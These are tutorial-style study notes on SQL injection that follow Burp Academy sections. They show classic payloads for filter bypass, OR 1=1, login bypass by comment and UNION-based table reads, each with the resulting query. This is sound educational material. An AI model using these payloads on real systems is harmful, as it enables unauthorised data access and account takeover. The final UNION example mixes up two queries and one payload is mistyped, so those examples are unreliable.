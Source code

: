 ```yaml
---
title: SQL Injection
date: 2021-11-16T21:07:41+01:00
---
```

# SQL Injection

SQL injection vulnerabilities occur when developers fail to properly sanitise the parameters in an SQL query that are provided by users. You can use SQLi to leak data or mess with an application\'s logic.

## Burp Academy Sections

### Retrieving hidden data

Say a web app runs the following SQL query when the value of the parameter *q* is %s:

``` sql
SELECT * FROM products WHERE category = '%s' AND released = 1
```

When a user sends the request with the parameter `?q=Gifts'`--= the server runs the SQL query:

``` sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

If we want the server to return everything, we can send the request `?q=Gifts'+OR+1=1--`

``` sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

### Messing around with an app\'s logic

When a web application runs an SQL query when it tries log users in, it might use something like:

``` sql
SELECT * FROM users WHERE username = 'yeet' AND password = 'pass'
```

An attacker can bypass such a mechanism by sending a request like `yeet'--` the app runs following SQL query:

``` sql
SELECT * FROM users WHERE username = 'yeet'--' AND password = 'pass'
```

### Getting data from other tables

You can use the operator to retrieve data from other tables. Here is an example for `?q=Gifts' UNION SELECT * FROM users--`

``` sql
SELECT * FROM users WHERE username = 'Gifts' UNION SELECT * FROM users--' AND password = 'pass'
```
